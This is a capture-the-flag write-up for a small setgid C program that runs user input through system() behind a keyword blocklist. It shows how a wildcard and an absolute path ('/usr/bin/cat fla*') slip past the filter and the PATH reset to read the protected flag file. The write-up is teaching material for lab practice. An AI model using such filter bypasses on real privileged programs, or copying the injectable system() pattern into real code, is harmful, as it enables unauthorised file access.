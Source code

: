 ```yaml
---
custom_edit_url: null
sidebar_position: 12
---
```


> Mommy! what is PATH environment in Linux?

## File properties

```
cmd1@ubuntu:~$ file ./cmd1
./cmd1: setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=38e83bafff424226079859e0fe26757437e79a2d, for GNU/Linux 3.2.0, not stripped
```

## Source code

```c title="cmd1.c"
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/thankyouverymuch");
    if(filter(argv[1])) return 0;
    setregid(getegid(), getegid());
    system( argv[1] );
    return 0;
}
```

Theprogram sets the `$PATH` environment variable to `/thankyouverymuch`, and checks if the user input contains the following:
  - `flag`
  - `sh`
  - `tmp`

If it does, the program returns early.

Otherwise, it executes the argument using `system()`.

### [`system`](https://man7.org/linux/man-pages/man3/system.3.html)

```c
int system(const char *command);
```

The `system()` function essentially executes the argument that is passed to it. 
So, the user's input will be executed by `system()`.

The easiest way to solve this challenge is to use wildcard (`*`) character.

We can simply `cat` out `fla*`, and since it does not get caught in any filter, we should be good.

```
cmd1@ubuntu:~$ ./cmd1 "cat fla*"
sh: 1: cat: not found
```

This is because the program overwrites the `$PATH` env variable.

Ideally this is what it looks like.

```
cmd1@ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

When `cat` is run, each of paths are prepended to it once by one. 
Wherever, `cat` is located in the system, that path will work.

Let's check it is located.

```
cmd1@ubuntu:~$ which cat
/usr/bin/cat
```

Now that we know the location, we can easily provide the entire path in the argument, so that the `$PATH` env variable does not come into use.

```
cmd1@ubuntu:~$ ./cmd1 "/usr/bin/cat fla*"
PATH_environment?_Now_I_really_g3t_it,_mommy!
```

